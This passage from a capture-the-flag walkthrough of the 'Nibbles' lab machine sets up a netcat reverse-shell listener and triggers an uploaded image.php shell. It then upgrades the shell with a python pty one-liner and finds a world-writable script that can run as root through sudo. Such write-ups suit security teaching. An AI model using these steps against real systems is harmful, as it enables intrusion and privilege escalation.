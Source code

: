 ```
$ nc -lvnp 1234
```

We need `curl` or browse our `image.php` file to execute the reverse shell.
Now, we have a reverse shell.

The shell we have is not fully interactive, so we will upgrade our shell to a nicer shell.
We will use a python one-liner to spawn a pseudo terminal:

```
$ python 3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now, what user we are?

```
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We need to check our sudo privileges.
It is something that we should always do, but in this case with more reason, because, if you remember, there's a **sudoers misconfiguration** in this box.

```
$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We can execute `/home/nibbler/personal/stuff/monitor.sh` as root without password.

If we navigate to our home `/home/nibbler` we can see two files:

* `personal.zip`
* `user.txt` (Our first flag)

If we unzip the `personal.zip` file we will find the `monitor.sh` file.

```
$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

The `monitor.sh` file is a bash script and is world-writable.
This box has a **world-writable file explotation** and we can run this script as root without password.
